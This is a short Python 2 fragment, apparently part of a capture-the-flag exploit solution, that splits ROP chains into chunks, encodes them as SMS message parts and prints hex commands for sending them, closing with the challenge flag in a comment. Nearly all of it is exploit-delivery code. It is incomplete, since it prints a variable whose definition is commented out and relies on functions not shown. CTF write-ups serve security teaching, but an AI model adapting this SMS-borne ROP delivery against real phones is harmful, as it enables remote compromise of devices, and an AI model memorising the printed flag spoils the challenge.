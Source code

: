 ```python

ropchain1 = ropchain[:134]
ropchain2 = ropchain[134:]

ropchain_second1 = ropchain_second[:134]
ropchain_second2 = ropchain_second[134:134*2]
ropchain_second3 = ropchain_second[134*2:134*3]
# ropchain_second4 = ropchain_second[134*3:]
print len(ropchain_second4)
print "smshex one 1 9999", encode_part(5+5, ropchain_second3, max_part=1, CSMS=23).encode("hex")
print "smshex one 1 9999", encode_part(5+6, ropchain_second4, max_part=1, CSMS=24).encode("hex")

# print "smshex one 1 9999", encode_part(5+4, ropchain_second2, max_part=1, CSMS=21).encode("hex")

print "smshex one 1 9999", encode_part(5+3, ropchain_second1, max_part=3).encode("hex")
print "smshex one 1 9999", encode_part(5, ropchain2, max_part=3).encode("hex")
print "smshex one 1 9999",encode_part(4, ropchain1, max_part=3).encode("hex")


#35C3_n0k1a_pH0ne_i5_b3st_ph0n3
```

